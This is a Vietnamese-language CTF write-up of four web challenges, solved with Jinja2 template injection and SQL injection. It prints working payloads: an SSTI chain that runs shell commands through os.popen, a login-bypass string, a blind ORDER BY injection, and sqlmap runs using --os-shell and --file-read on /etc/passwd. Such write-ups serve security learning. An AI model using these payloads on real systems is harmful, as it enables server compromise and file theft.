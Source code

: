 ```yaml
---
title: "Write up Cyradar CTF TTS/CTV [WEB]"
date: "2025-01-05"
excerpt: "Write up Cyradar CTF TTS/CTV [WEB]"
featured: "/images/cyradar_logo.svg"
---
```


## Bài 1: SSTI

Khi mở web lên có giao diện như sau:

![image](https://hackmd.io/_uploads/S1FPYZO8Je.png)

=> Khả năng có 1 query string là `name`

Cho `name` có giá trị là `{{7*7}}` để test SSTI

=> Xuất hiện 49 => có khả năng bị SSTI

![image](https://hackmd.io/_uploads/ryg0FWOI1g.png)

Test tiếp `name` = `${{<%[%'"}}%\.` để biết xem phía server đang dùng template engine nào

![image](https://hackmd.io/_uploads/B1i3qW_Ikg.png)

=> Jinja2

Sử dụng payload: `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls /').read() }}
`

Phát hiện có flag.txt

![image](https://hackmd.io/_uploads/B1iApWdLyg.png)

Đọc flag.txt => `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag.txt').read() }}`

![image](https://hackmd.io/_uploads/BJeI0bO8kg.png)

Flag: `Hello CyWeb{w3b_3asy_sst1}!`


## Bài 2: SQL Injection

Bài 2 có giao diện như sau:

![image](https://hackmd.io/_uploads/B1HMyfdU1l.png)

Đọc source code => SQL Injection

Khi thử nhập username là `admin' or 1 = 1 -- thì bị thật`

![image](https://hackmd.io/_uploads/rJuvJzOIJg.png)

Tiếp theo sử dụng tool SQLMap để đẩy nhanh tiến độ dump db

Đầu tiên sử dụng Burp Suite vào url bài web, đăng nhập thử, sau đó lấy request đưa vào file `request.txt`

Sau đó sử dụng SQLMap như sau

![image](https://hackmd.io/_uploads/BkUhJGd8kg.png)

![image](https://hackmd.io/_uploads/H1901G_U1e.png)

Thấy được 3 database sau:

![image](https://hackmd.io/_uploads/HkhkeMOUJg.png)

Thử dump database public (`-dbs`)

![image](https://hackmd.io/_uploads/SyNZxzOLkg.png)

Khi dump table users thì không thấy flag (`-D public -T users --dump`)

![image](https://hackmd.io/_uploads/ryHEgzu81x.png)

Xem lại đề bài có vẻ gợi ý RCE

![image](https://hackmd.io/_uploads/HJNYef_I1e.png)

=> Thêm option `--os-shell` để RCE

![image](https://hackmd.io/_uploads/BJC9gfOUye.png)

Sau đó liệt kê thư mục gốc:

![image](https://hackmd.io/_uploads/rk-nlzdUyl.png)

Đọc file `flag.txt`

![image](https://hackmd.io/_uploads/Byr6lfOLkx.png)

Flag: `CyWeb{ThiS_i5_m3d!um5q1!r(3}`

## Bài 3: SSTI

![image](https://hackmd.io/_uploads/HyF5bfOIJl.png)

Server đang reflect lại địa chỉ IP của client.

Thử thêm `X-Forwarded-For` vào gói tin:

![image](https://hackmd.io/_uploads/Byx-GzOI1x.png)

=> Thử địa chỉ localhost nhưng không thấy gì

Thử `{{7*7}}` ra 49

![image](https://hackmd.io/_uploads/SkwVMzu8ke.png)

Tiếp tục 1 số bước như bài 1 => Jinja2 

Và chèn payload sau: `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls /').read() }}`

![image](https://hackmd.io/_uploads/ByNifMu8kg.png)

Đọc flag.txt: `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag.txt').read() }}`

![image](https://hackmd.io/_uploads/S1xpfMOLJx.png)

Flag: `CyWeb{m3d!umsst!}`

## Bài 4: SQL Injection

![image](https://hackmd.io/_uploads/S1j8Xf_8kl.png)

Có vẻ giống bài 2 nhưng lần này với query string `order_by`

Sử dụng sqlmap check 1 số database

![image](https://hackmd.io/_uploads/B1QlVGOUJe.png)

=> xem xét db `chh`

**Note**: 1 cách test bằng cơm nếu không dùng sqlmap: `?order_by=(SELECT (CASE WHEN ((SELECT substring(table_name,1,1) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)='a') THEN 'price' ELSE (SELECT 7066 UNION SELECT 7211) END))
`

Phát hiện table flag

![image](https://hackmd.io/_uploads/HkiWVM_Lyg.png)

![image](https://hackmd.io/_uploads/ryPMEM_81l.png)

Tuy nhiên thì đây là flag fake
Sau đó có thử option `--os-shell` tuy nhiên gặp lỗi (khả năng không upload được file) => Không thể RCE được
Sau khi tìm hiểu thì có phát hiện ra sqlmap có thể đọc được file với `--file-read`

`sqlmap -r request.txt --file-read=/etc/passwd`

Đầu tiên đọc file `/etc/passwd` xem có flag không

![image](https://hackmd.io/_uploads/rkkZHf_L1x.png)

Em nghĩ lại thì flag các bài trước đều được đặt ở /flag.txt 

![image](https://hackmd.io/_uploads/rJVSHf_L1l.png)
![image](https://hackmd.io/_uploads/r1oHHG_UJg.png)

=> Flag: `CyWeb{w3b_h@rd_sql1_0rderby}`